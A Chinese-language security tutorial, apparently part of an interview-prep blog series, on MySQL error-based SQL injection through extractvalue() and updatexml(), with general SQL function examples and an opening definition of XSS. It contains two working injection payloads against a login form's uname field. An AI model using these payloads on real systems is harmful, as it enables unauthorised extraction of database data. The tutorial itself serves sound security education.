本篇文章深刻剖析了SQL注入的原理，介绍了几个较为实用的绕过WAF的方式，最重要的是，对预编译的底层及攻防进行了详细介绍，这是目前常见资料中较为少见的。笔者可以负责任的说，虽然SQL注入已经在各个方面得到了有效控制，但在企业内网，注入问题仍然层出不穷。对于注入的透彻理解，将会非常有助于在安全面试中脱颖而出。本系列将会致力于这一点，在深度和广度上对一个大厂安全工程师应掌握的安全知识进行详细介绍。


# 报错注入

## [MySQL 5.1 提供XML内置支持(XPath)](http://www.blogjava.net/chenpengyi/archive/2006/07/11/57578.html)

MySQL 5.1.5版本中添加了对XML文档进行查询和修改的函数，分别是ExtractValue()和UpdateXML()，下面是这两个函数的使用示例，还是一样我们首先建立一个示例数据库，然后将范例中使用的XML文档输入到数据库中：

```sql
create database errorTest;
create table x(doc varchar(255));
insert into x values
('
<book>
    <title>A guide to the SQL standard</title>
    <author>
        <initial>CJ</initial>
        <surname>Date</surname>
    </author>
</book>
'),
('
<book>
    <title>SQL:1999</title>
    <author>
        <initial>J</initial>
        <surname>Melton</surname>
    </author>
</book>
');
```

可以看到，doc列的内容中包含了自己的层次结构，以XML格式体现包含书名和作者的书本，其中作者还包含名字简写大写以及姓。这是流行的排版和储存格式，字母`<book>`和`</book>`是标记，使用户更容易理解内部的层次结构。


## extractvalue();

语法：

`EXTRACTVALUE (XML_document, XPath_string);`

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc

第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。

作用：从目标XML中返回包含所查询值的字符串


报错注入：

```sql
uname=admin' union select extractvalue(1, concat(0x7e,(select user()),0x7e))-- fadjifa&passwd=admin&submit=Submit
```


### 示例#E1:

```sql
select extractvalue(doc, '/book/author/initial') from x;
```

```
mysql> select extractvalue(doc, '/book/author/initial') from x;
+-------------------------------------------+
| extractvalue(doc, '/book/author/initial') |
+-------------------------------------------+
| CJ                                        |
| J                                         |
+-------------------------------------------+
2 rows in set (0.00 sec)
```

可以看到，EXTRACTVALUE()函数将/book/author/initial节点中的值取出来，并通过Select返回。因此需要简单的查找XML文档中的值，只要在XPath_string参数中指定好层次和节点就行了。


### 示例#E2:

```sql
mysql> select extractvalue(doc, '/*/*/initial') from x;
ERROR 2006 (HY000): MySQL server has gone away
No connection. Trying to reconnect...
Connection id:    37
Current database: errortest

+-----------------------------------+
| extractvalue(doc, '/*/*/initial') |
+-----------------------------------+
| CJ                                |
| J                                 |
+-----------------------------------+
2 rows in set (0.00 sec)
```

如果查询前并不知道层次关系，你也可以使用通配符进行层次的匹配，不过当XML文档比较大的时候查找速度会很慢滴。


虽然上面的extractValue()函数都使用在SELECT列表中，其实该函数是可以使用在任何一个允许使用表达式的语句中的。这里提示一点，使用这个函数可以轻松将XML文档列与全文检索结合起来。


## updatexml();

语法：

`UPDATEXML (XML_document, XPath_string, new_value);`

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc

第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。

第三个参数：new_value，String格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点的值


报错注入：

```sql
uname=admin' union select updatexml(1, concat(0x7e,(select user()),0x7e),1)-- fadjifa&passwd=admin&submit=Submit
```


### 示例#U1

```sql
mysql> select UpdateXML(doc,'/book/author/initial','!!') from x;

ERROR 2013 (HY000): Lost connection to MySQL server during query
mysql> select UpdateXML(doc,'/book/author/initial','!!') from x;
ERROR 2006 (HY000): MySQL server has gone away
No connection. Trying to reconnect...
Connection id:    38
Current database: errortest

+-----------------------------------------------------------------------------------------------------------------------------------------------+
| UpdateXML(doc,'/book/author/initial','!!')
                        |
+-----------------------------------------------------------------------------------------------------------------------------------------------+
|
<book>
    <title>A guide to the SQL standard</title>
    <author>
        !!
        <surname>Date</surname>
    </author>
</book>
 |
|
<book>
    <title>SQL:1999</title>
    <author>
        !!
        <surname>Melton</surname>
    </author>
</book>
                  |
+-----------------------------------------------------------------------------------------------------------------------------------------------+
2 rows in set (0.00 sec)
```

UpdateXML函数的前两个参数用法以及写法与ExtractValue是一样的，因为这里需要查找到符合条件的数据节点。第三个参数就是为了替换节点字符串的。文中我们就使用!!字符串替换了book/author/initial节点的值。返回值是整个改变后的XML文档。这里记住，由于我们使用的是Select语句，因此并没有对真正的数据进行修改，而是在内存中将取出的数据进行修改然后返回给用户。如果需要彻底的修改文档内容，可以使用下面语句：

```sql
UPDATE x SET doc = UpdateXML(doc,/book/author/initial','!!');
```

细心的人也许发现这里有一个错误，也许是Bug，因为我们并不想修改结构化的文档，而仅仅需要修改内容，但UpdateXML函数将`<initial>CJ</initial>`整个文本改成了!!，这样就不是我们所想要的了，因为它改变了整个文档结构。因此如果你需要的仅仅是修改这个结构化文档的内容部分，而不是整个文本，可以使用：

```sql
UpdateXML(doc,'/book/author/initial','<initial>!!</initial>') from x;
```


## floor()

FLOOR() 函数返回小于或等于数字的最大整数值。

句法：`floor(number)`

```sql
select floor(25);		# 返回大于或等于25的最大整数值
```


## count()

COUNT() 函数返回选择查询返回的记录数。

**注意：**不计算 NULL 值。

句法：`count(expression)`

```sql
SELECT COUNT(ProductID) AS NumberOfProducts FROM Products; # 返回“Products”表中的产品数量
```


## group by

该`GROUP BY`语句将具有相同值的行分组，例如“查找每个国家/地区的客户数量”。

该`GROUP BY`语句通常与聚合函数 ( `COUNT()`, `MAX()`, `MIN()`, `SUM()`, `AVG()`) 一起使用，以按一列或多列对结果集进行分组。

语法：

```sql
SELECT column_name(s)
FROM table_name
WHERE condition
GROUP BY column_name(s)
ORDER BY column_name(s);
```


以下 SQL 语句列出每个国家/地区的客户数量：

```sql
SELECT COUNT(CustomerID), Country
FROM Customers
GROUP BY Country;
```


以下 SQL 语句列出了每个国家/地区的客户数量，从高到低排序：

```sql
SELECT COUNT(CustomerID), Country
FROM Customers
GROUP BY Country
ORDER BY COUNT(CustomerID) DESC;
```


## rand()

RAND() 函数返回一个介于 0（含）和 1（不含）之间的随机数。

语法：`rand(seed)`

返回一个随机的十进制数（没有种子值 - 所以它返回一个完全随机的数 >= 0 和 <1）

```sql
SELECT RAND();
```


随机数：https://blog.csdn.net/qq_41375609/article/details/99327074


# XSS注入

## 什么是XSS

跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets，CSS)的缩写混淆，故将跨站脚本攻击缩写为xss。XSS是一种web应用程序的安全漏洞，主要是由于web应用程序对用户的输入过滤不足而产生的。恶意攻击者往web页面里插入恶意脚本代码，当用户浏览该页之时，嵌入其中web里面的脚本代码会被执行，攻击者便可对受害用户采取Cookie资料窃取、会话劫持、钓鱼欺骗等各种攻击。

**成因：**

1、对于用户输入没有严格控制而直接输出到页面；

2、对非预期输入的信任；
